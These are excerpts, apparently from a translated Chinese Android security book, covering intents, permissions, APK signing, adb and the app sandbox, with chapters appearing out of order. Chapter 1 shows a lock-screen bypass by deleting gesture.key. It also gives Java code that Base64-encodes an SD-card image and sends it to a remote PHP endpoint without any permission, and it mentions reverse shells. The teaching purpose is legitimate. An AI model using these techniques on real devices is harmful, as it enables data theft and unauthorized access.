广播接收器。 广播接收器是应用的组件，它接收广播消息并根据所获得的消息启动工作流。
内容供应器。 内容供应器是为应用提供存储和检索数据的能力的组件。 它还可以与另一应用
共享一组数据。
因此，Android 应用由不同的组件组成，没有中央入口点，不像 Java 程序和 main 方法那
样。 由于没有入口点，所有组件（广播接收器除外，它也可以动态定义）需要由应用的开发
人员在 AndroidManifest.xml 文件中声明。 分离成组件使得我们可以在其它应用中使用组件。
例如，在清单 5.1 中，显示了一个应用的 AndroidManifest.xml 文件的示例。 此应用包含第
21 行中声明的一个 Activity 。其他应用可能会调用此活动，将此组件的功能集成到其应用
中。

Android 提供了各种方式来调用应用的组件。 我们可以通过使用方
法 startActivity 和 startActivityForResult 启动新的活动。 服务通过 startService 方法启
动。 在这种情况下，被调用的服务调用其方法 onStart 。 当开发人员要在组件和服务之间建
立连接时，它调用 bindService 方法，并在被调用的服务中调用 onBind 方法。 当应用或系统
组件使用 sendBroadcast ， sendOrderedBroadcast 和 sendStickyBroadcast 方法发送特殊消息
时，将启动广播接收器。
内容供应器由来自内容解析器的请求调用。所有其他组件类型通过 Intent （意图）激活。 意
图是 Android 中基于 Binder 框架的特殊通信手段。意图被传递给执行组件调用的方法。被调
用的组件可以被两种不同类型的意图调用。为了显示这些类型的差异，让我们考虑一个例
子。例如，用户想要在应用中选择图片。应用的开发人员可以使用显式意图或隐式意图来调
用选择图片的组件。对于第一种意图类型，开发人员可以在他的应用的组件中实现挑选功
能，并使用带有组件名称数据字段的显式意图调用此组件。当然，开发人员可以调用其他应
用的组件，但是在这种情况下，他必须确保该应用安装在系统中。一般来说，从开发人员的
角度来看，一个应用中的组件或不同应用的组件之间的交互不存在差异。对于第二种意图类
型，开发人员将选择适当组件的权利转移给操作系统。 intent 对象在

其 Action ， Data 和 Category 字段中包含一些信息。根据这个信息，使用意图过滤器，操作
系统选择可以处理意图的适当组件。意图过滤器定义了组件可以处理的意图的“模板"。当然，
相同的应用可以定义一个意图过滤器，它将处理来自其他组件的意图。

#### 5.2 应用层的权限

权限不仅用于保护对系统资源的访问。 第三方应用的开发人员还可以使用自定义权限来保护
对其应用的组件的访问。 自定义权限声明的示例如清单 5.1 中第 11 行所示。自定义权限的声
明类似于系统权限之一。
为了说明自定义权限的用法，请参考图 5.1。由 3 个组件组成的应用 2 希望保护对其中两个的
访问：C1 和 C2。为了实现这个目标，应用 2 的开发者必须声明两个权限标签 p1 ， p2 ，并
相应地将它们分配给受保护的组件。如果应用 1 的开发者想要访问应用 2 的组件 C1 ，则他
必须定义他的应用需要权限 p1 。在这种情况下，应用 1 就可以使用应用 2 的组件 C1。如果
应用没有指定所需的权限，则禁止访问受此权限保护的组件（参见图 5.1 中组件 C2 的情
况）。回头看看我们在代码 5.1 中的 AndroidManifest.xml 文件的例子，活动 TestActivity 被
权限 com.testpackage.permission.mypermission 保护，它在同一个应用清单文件中声明。如果
另一个应用想要使用 TestActivity 提供的功能，它必须请求使用此权限，类似于第 16 行中
的操作。

ActivityManagerService 负责调用应用的组件。 为了保证应用组件的安全性，在用于调用组
件的框架方法（例如，5.1 节中描述的 startActivity ）中，放置特殊的钩子。 这些钩子检查
应用是否有权调用组件。 这些检查以 PackageManagerServer 类的 CheckUidPermission 方法结
束（参见清单 4.6）。 因此，发生在 Android 框架层的实际的权限实施，可以看做 Android
操作系统的受信任部分。 因此，应用不能绕过检查。 有关如何调用组件和权限检查的更多信
息，请参见[8]

### 第六章 Android 安全的其它话题

#### 6.1 Android 签名过程

Android 应用程序以 Android 应用包文件（ .apk 文件）的形式分发到设备上。 由于这个平台
的程序主要是用 Java 编写的，所以这种格式与 Java 包的格式 -- jar （Java Archive）有很
多共同点，它用于将代码，资源和元数据（来自可选的 META-INF 目录 ）文件使用 zip 归档算
法转换成一个文件。 META-INF 目录存储软件包和扩展配置数据，包括安全性，版本控制，扩
展和服务[5]。 基本上，在 Android 的情况中， apkbuilder 工具将构建的项目文件压缩到一起
[1]，使用标准的 Java 工具 jarsigner 对这个归档文件签名[6]。 在应用程序签名过程
中， jarsigner 创建 META-INF 目录，在 Android 中通常包含以下文件：清单文件
（ MANIFEST.MF ），签名文件（扩展名为 .SF ）和签名块文件（ .RSA 或 .DSA ） 。
清单文件（ MANIFEST.MF ）由主属性部分和每个条目属性组成，每个包含在未签名的 apk 中
文件拥有一个条目。 这些每个条目中的属性存储文件名称信息，以及使用 base64 格式编码
的文件内容摘要。 在 Android 上，SHA1 算法用于计算摘要。 清单 6.1 中提供了清单文件的
摘录。
1 Manifest−Version : 1.0
2 Created−By: 1.6.0 41 (Sun Microsystems Inc. )
3
4 Name: res/layout/main . xml
5 SHA1−Digest : NJ1YLN3mBEKTPibVXbFO8eRCAr8=
6
7 Name: AndroidManifest . xml
8 SHA1−Digest : wBoSXxhOQ2LR/pJY7Bczu1sWLy4=
代码 6.1：清单文件的摘录
包含被签名数据的签名文件（ .SF ）的内容类似于 MANIFEST.MF 的内容。 这个文件的一个例
子如清单 6.2 所示。 主要部分包含清单文件的主要属性的摘要
（ SHA1-Digest-Manifest-Main-Attributes ）和内容摘要（ SHA1-Digest-Manifest ）。 每个条
目包含清单文件中的条目的摘要以及相应的文件名

最后一部分是签名块文件（ .DSA 或 .RSA ）。 这个二进制文件包含签名文件的签名版本; 它
与相应的 .SF 文件具有相同的名称。 根据所使用的算法（RSA 或 DSA），它有不同的扩展
名。
相同的apk文件有可能签署几个不同的证书。 在这种情况下，在 META-INF 目录中将有几
个 .SF 和 .DSA 或 .RSA 文件（它们的数量将等于应用程序签名的次数）。

##### 6.1.1 Android 中的应用签名检查

大多数 Android 应用程序都使用开发人员签名的证书（注意 Android 的“证书”和“签名”可以互
换使用）。 此证书用于确保原始应用程序的代码及其更新来自同一位置，并在同一开发人员
的应用程序之间建立信任关系。 为了执行这个检查，Android 只是比较证书的二进制表示，
它用于签署一个应用程序及其更新（第一种情况）和协作应用程序（第二种情况）。
这种对证书的检查通过 PackageManagerService 中的方
法 int compareSignatures(Signature[] s1，Signature[] s2) 来实现，代码如清单 6.3 所示。在
上一节中，我们注意到在 Android 中，可以使用多个不同的证书签署相同的应用程序。这解
释了为什么该方法使用两个签名数组作为参数。尽管该方法在 Android 安全规定中占有重要
地位，但其行为强烈依赖于平台的版本。在较新版本中（从 Android 2.2 开始），此方法比较
两个 Signature 数组，如果两个数组不等于 null ，并且如果所有 s2 签名都包含在 s1 中，
则返回 SIGNATURE MATCH 值，否则为 SIGNATURE_NOT_MATCH 。在版本 2.2 之前，此方法检查数
组 s1 是否包含在 s2 中。这种行为允许系统安装升级，即使它们已经使用原始应用程序的证
书子集签名[2]。
在几种情况下，需要同一开发人员的应用程序之间的信任关系。 第一种情况
与 signature 和 signatureOrSystem 的权限相关。 要使用受这些权限保护的功能，声明权限和
请求它的包必须使用同一组证书签名。 第二种情况与 Android 运行具有相同 UID 或甚至在相
同 Linux 进程中运行不同应用程序的能力有关。 在这种情况下，请求此类行为的应用程序必
须使用相同的签名进行签名。

### 第一章 Android 安全入门

#### 1.1 Android 简介

在 Linux 内核之上是一个层级，包含一些最重要和有用的库，如下所示：
Surface Manager：管理窗口和屏幕 媒体框架：这允许使用各种类型的编解码器来播放和记
录不同的媒体 SQLite：这是一个较轻的 SQL 版本，用于数据库管理 WebKit：这是浏览器渲
染引擎 OpenGL：用于在屏幕上正确显示 2D 和 3D 内容



Android 中的库是用 C 和 C++ 编写的，其中大多数是从 Linux 移植的。 与 Linux 相比，
Android 中的一个主要区别是，在这里没有 libc 库，它用于 Linux 中的大多数任务。 相反，
Android 有自己的称为 bionic 的库，我们可以认为它是一个剥离和修改后的，用于 Android
的 libc 版本。
在同一层级，还有来自 Android 运行时 -- Dalvik 虚拟机和核心库的组件。 我们将在本书的下
一部分中讨论关于 Dalvik 虚拟机的很多内容。
在这个层之上，有应用程序框架层，它支持应用程序执行不同类型的任务。
此外，开发人员创建的大多数应用程序只与第一层和最顶层的应用程序交互。 该架构以一种
方式设计，在每个时间点，底层都支持上面的层级。

Android 中的所有应用程序都在虚拟环境下运行，这称为 Dalvik 虚拟机（DVM）。 这里需要
注意的一点是，从 Android 4.4 版本开始，还有另一个运行时称为 Android 运行时（ART），
用户可以在 DVM 和 ART 运行时环境之间自由切换。
然而，对于这本书，我们将只关注 Dalvik 虚拟机实现。 它类似于 Java 虚拟机（JVM），除
了基于寄存器的特性，而不是基于堆栈的特性。 因此，运行的每个应用程序都将在自己的
Dalvik 虚拟机实例下运行。 因此，如果我们运行三个不同的应用程序，将有三个不同的虚拟
实例。 现在，这里的重点是，即使它为应用程序创建一个虚拟环境来运行，它不应该与安全
容器或安全环境混淆。 DVM 的主要焦点是与性能相关，而不是与安全性相关。
Dalvik 虚拟机执行一个名为 .dex 或 Dalvik 可执行文件的文件格式。

#### 1.2 深入了解 Android

如果你有 Android 设备或正在运行Android模拟器，则可以使用 Android SDK 本身提供的工具
（称为 adb）。 我们将在第二章详细讨论 adb。 现在，我们将只设置 SDK，我们已经准备好
了。
一旦设备通过 USB 连接，我们可以在我们的终端中输入 adb，这将显示所连接设备的序列号
列表。 请确保你已在设备设置中启用了 USB 调试功能。
$ adb devices
List of devices attached
emulator-5554 device

，Android 是基于 Linux 内核的，所以大多数 Linux 命令在 Android 上
也可以通过 adb shell 完美运行。 adb shell 为你提供与设备的 shell 直接交互，你可以在其中
执行命令和执行操作以及分析设备中存在的信息。 为了执行 shell，只需要键入以下命令：
adb shell.

Android 安全模型的核心是 Linux 特权分离。 每次在 Android 设备中启动新应用程序
时，都会为其分配唯一的用户 ID（UID），该用户 ID 将之后会属于某些其他预定义组。
与 Linux 类似，用作命令的所有二进制文件都位于 /system/bin 和 /system /xbin 。 此外，我
们从 Play 商店或任何其他来源安装的应用程序数据将位于 /data/data ，而其原始安装文件
（即 .apk ）将存储在 /data/app 。 此外，还有一些应用程序需要从 Play 商店购买，而不是
只是免费下载。 这些应用程序将存储在 /data/app-private/ 。
Android 安装包（APK）是 Android 应用程序的默认扩展名，它只是一个归档文件，包含应用
程序的所有必需文件和文件夹。 我们在后面的章节中将继续对 .apk 文件进行逆向工程。
现在，让我们访问 /data/data ，看看里面有什么。 这里需要注意的一点是，为了在真实设备
上实现，设备需要 root 并且必须处于 su 模式：

如果手机已经 root，我们可以修改文件系统中的任何文
件。 对设备获取 root 意味着我们可以完全访问和控制整个设备，这意味着我们可以看到以及
修改任何我们想要的文件。
最常见的安全保护之一是大多数人都想到的是模式锁定或 pin 锁，它默认存在于所有Android
手机。 你可以通过访问 Settings | Security | Screen Lock 来配置自己的模式。
一旦我们设置了密码或模式锁定，我们现在将继续，将手机与 USB 连接到我们的系统。 现
在，密码锁的密钥或模式锁的模式数据以名称 password.key 或 gesture.key 存储
在 /data/system 。 注意，如果设备被锁定，并且 USB 调试被打开，你需要一个自定义引导
加载程序来打开 USB 调试。 整个过程超出了本书的范围。 要了解有关 Android 的更多信
息，请参阅 Thomas Cannon Digging 的 Defcon 演示。
因为破解密码/模式将更加艰难，并且需要暴力（我们将看到如何解密实际数据），我们将简
单地继续并删除该文件，这将从我们手机中删除模式保护 ：
shell@android:/data # cd /data/system
shell@android:/data/system # rm gesture.key

#### 1.3 沙箱和权限模型



Android 中的每个应用程序都在其自己的 Dalvik 虚拟机实例中
运行。 这就是为什么，无论何时任何应用程序在我们的设备中崩溃，它只是显示强制关闭或
等待选项，但其他应用程序继续顺利运行。 此外，由于每个应用程序都在其自己的实例中运
行，因此除非内容提供者另有规定，否则将无法访问其他应用程序的数据。
Android 使用细粒度的权限模型，这需要应用程序在编译最终应用程序包之前预定义权限。
你必须注意到，每次从 Play 商店或任何其他来源下载应用程序时，它会在安装过程中显示一
个权限屏幕，它类似于以下屏幕截图：

此权限屏幕显示应用程序可以通过手机执行的所有任务的列表，例如发送短信，访问互联网
和访问摄像头。 请求多于所需的权限使应用程序成为恶意软件作者的更具吸引力的目标。

Android 应用程序开发人员必须在开发应用程序时在名为 AndroidManifest.xml 的文件中指定
所有这些权限。 此文件包含各种应用程序相关信息的列表，例如运行程序所需的最低
Android 版本，程序包名称，活动列表（应用程序可见的应用程序中的界面），服务（应用程
序的后台进程） ，和权限。 如果应用程序开发人员未能在 AndroidManifest.xml 文件中指定
权限，并仍在应用程序中使用它，则应用程序将崩溃，并在用户运行它时显示强制关闭消
息。
一个正常的 AndroidManifest.xml 文件看起来像下面的截图所示。 在这里，你可以使
用 <uses-permission> 标记和其他标记查看所需的不同权限：


如前所述，所有 Android 应用程序在安装后首次启动时都会分配一个唯一的 UID。 具有给定
UID 的所有用户都属于特定组，具体取决于他们请求的权限。 例如，一个仅请求 Internet 权
限的应用程序将属于 inet 组，因为 Android 中的 Internet 权限位于 inet 组下。

用户（在这种情况下的应用程序）可以属于多个组，具体取决于他们请求的权限。 或者换句
话说，每个用户可以属于多个组，并且每个组可以具有多个用户。 这些组具有由组
ID（GID）定义的唯一名称。 然而，开发人员可以明确地指定其他应用程序在与第一个相同
的 UID 下运行。 在我们的设备中，其中的组和权限在文件 platform.xml 中指定，它位
于 /system/etc/permissions/ ：

shell@grouper:/system/etc/permissions $ cat platform.xml
<permissions>
. . .
<!-- ================================================================== -->
<!-- The following tags are associating low-level group IDs with
permission names. By specifying such a mapping, you are saying
that any application process granted the given permission will
also be running with the given group ID attached to its process,
so it can perform any filesystem (read, write, execute) operations
allowed for that group. -->
<permission name="android.permission.BLUETOOTH" >
<group gid="net_bt" />
</permission>
<permission name="android.permission.INTERNET" >
<group gid="inet" />
</permission>
<permission name="android.permission.CAMERA" >
<group gid="camera" />
</permission>
. . . [Some of the data has been stripped from here in order to shorten the output an
d make it readable]
</permissions>

此外，这清除了对在 Android 设备中运行的本地应用程序的怀疑。 由于本地应用程序直接与
处理器交互，而不是在 Dalvik 虚拟机下运行，因此它不会以任何方式影响整体安全模型。
现在，就像我们在前面部分看到的，应用程序将其数据存储
在 location/data/data/[package name] 。 现在，存储应用程序数据的所有文件夹也具有相同
的用户 ID，这构成 Android 安全模型的基础。 根据 UID 和文件权限，它将限制来自具有不同
UID 的其他应用程序对它的访问和修改。
在下面的代码示例中， ret 包含以 Base64 格式编码存储在的 SD 卡中的图像，现在正在使
用浏览器调用来上传到 attify.com 网站。 目的只是找到一种方式来在两个不同的 Android 对
象之间进行通信。
我们将首先创建一个对象来存储图像，在 Base64 中编码，最后将其存储在一个字符串中 imageString ：

final File file = new File("/mnt/sdcard/profile.jpg");
Uri uri = Uri.fromFile(file);
ContentResolver cr = getContentResolver();
Bitmap bMap=null;
try {
InputStream is = cr.openInputStream(uri);
bMap = BitmapFactory.decodeStream(is);
if (is != null) {
is.close();
}
} catch (Exception e) {
Log.e("Error reading file", e.toString());
}
ByteArrayOutputStream baos = new ByteArrayOutputStream();
bMap.compress(Bitmap.CompressFormat.JPEG, 100, baos);
byte[] b = baos.toByteArray();
String imageString = Base64.encodeToString(b,Base64.DEFAULT);

最后，我们将启动浏览器将数据发送到我们的服务器，我们有一个 .php 文件侦听传入的数
据：
startActivity(new Intent(Intent.ACTION_VIEW,Uri.parse("http://attify.com/up.php?u="+im
ageString)));
我们还可以执行命令并以相同的方式将输出发送到远程服务器。 但是，这里需要注意的一点
是 shell 应该在应用程序的用户下运行：
// To execute commands :
String str = "cat /proc/version"; //command to be executed is stored in str.
process = Runtime.getRuntime().exec(str);
这是一个有趣的现象，因为攻击者可以获得一个反向 shell（这是一个从设备到系统的双向连
接，可以用于执行命令），而不需要任何类型的权限。

#### 1.4 应用签名

应用程序签名是 Android 的独特特性之一，由于其开放性和开发人员社区，它取得了成功。
Play 商店中有超过一百万个应用。 在 Android 中，任何人都可以通过下载 Android SDK 创建
Android 应用，然后将其发布到 Play 商店。 通常有两种类型的证书签名机制。 一个是由管理
证书颁发机构（CA）签名的，另一个是自签名证书。 没有中间证书颁发机构（CA），而开
发人员可以创建自己的证书并为应用程序签名。
在 Apple 的 iOS 应用程序模型中可以看到 CA 签名，其中开发者上传到 App Store 的每个应
用程序都经过验证，然后由 Apple 的证书签名。 一旦下载到设备，设备将验证应用程序是否
由 Apple 的 CA 签名，然后才允许应用程序运行。


